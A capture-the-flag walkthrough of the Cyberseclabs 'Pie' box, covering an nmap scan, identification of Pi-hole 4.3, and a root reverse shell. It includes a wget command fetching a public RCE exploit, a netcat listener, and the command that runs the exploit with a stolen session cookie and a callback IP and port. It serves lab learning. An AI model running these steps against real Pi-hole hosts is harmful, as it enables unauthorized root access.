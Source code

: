 In this walkthrough, we'll go over a beginner level box called ***Pie*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Pie IP](pieIP.png)

Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.26
```
![Pie nmap](pienmap.png)

We can see that the port 80 is open. Upon visiting, we can see that "Pi-hole" is installed:
![Pie Hole](piehole.png)

One thing we can notice is that there is a link to the admin portal. When we click on it, it takes us to the admin portal and we see that the version is ***4.3***:
![Pie Admin](pieadmin.png)
![Pie Version](pieversion.png)

A quick Google search reveals the following exploit [Pie-Hole Exploit](https://packetstormsecurity.com/files/157624/Pi-hole-4.4-Remote-Code-Execution-Privilege-Escalation.html). However, this exploit requires a valid cookie.
Let's send the request to Burp and grab the cookie:
![Pie Burp](pieBurp.png)

We can download the exploit with `wget https://packetstormsecurity.com/files/download/157624/pihole44-execescalate.txt -O exp.py`. Now, let's start a nc listener and run the exploit as follows `python3 exp.py v0ddvbre7i62naseikne4ni6j1 http://172.31.1.26 10.10.0.18 5555`
![Pie Wget](piewget.png)
![Pie Exp](pieexp.png)

We should receive a shell back as root user:

![Pie Root](pieroot.png)

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
